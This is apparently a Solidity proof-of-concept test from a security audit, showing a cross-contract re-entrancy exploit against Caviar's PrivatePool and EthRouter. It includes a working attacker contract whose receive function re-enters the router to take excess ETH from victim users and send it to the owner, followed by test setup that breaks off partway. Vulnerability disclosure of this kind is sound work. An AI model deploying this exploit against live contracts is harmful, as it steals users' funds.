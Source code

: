 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {ERC721Royalty} from "@openzeppelin/contracts/token/ERC721/extensions/ERC721Royalty.sol";

import {ERC721TokenReceiver} from "solmate/tokens/ERC721.sol";

import "./Fixture.sol";

/**
 * @notice Needed functions interface of the ERC2981 NFT contract that we will use for this PoC.
 * @dev https://polygonscan.com/address/0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53#code
 */
interface IPixels {
    function creatorOf(uint256) external view returns (address);

    function setCreatorRedirect(address to) external;
}

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract MaliciousRoyaltyReceiver is Ownable, ERC721TokenReceiver {
    /// @notice The on-chain NFT collection contract that we will use for this PoC.
    ERC721Royalty nft;

    /// @notice the Caviar EthRouter contract.
    EthRouter router;

    /**
     * @param _nft The on-chain NFT collection contract that we will use for this PoC.
     * @param _router the Caviar EthRouter contract.
     */
    constructor(address _nft, address _router) {
        nft = ERC721Royalty(_nft);
        router = EthRouter(payable(_router));
    }

    /// @notice Used to perform cross contract re-entrancy and steal excess funds from victim users.
    receive() external payable {
        // This will steal all excess tokens that are currently transferred back to the pool.
        router.buy(new EthRouter.Buy[](0), 0, false);

        // Transfer the stolen amount to the owner/exploiter.
        (bool success, ) = owner().call{value: address(this).balance}("");
        require(success);
    }
}

contract RoyaltyReceiverStealExcessEthTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721Royalty public nft;

    /// @notice The vulnerable Caviar private pool.
    PrivatePool public privatePool;

    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

```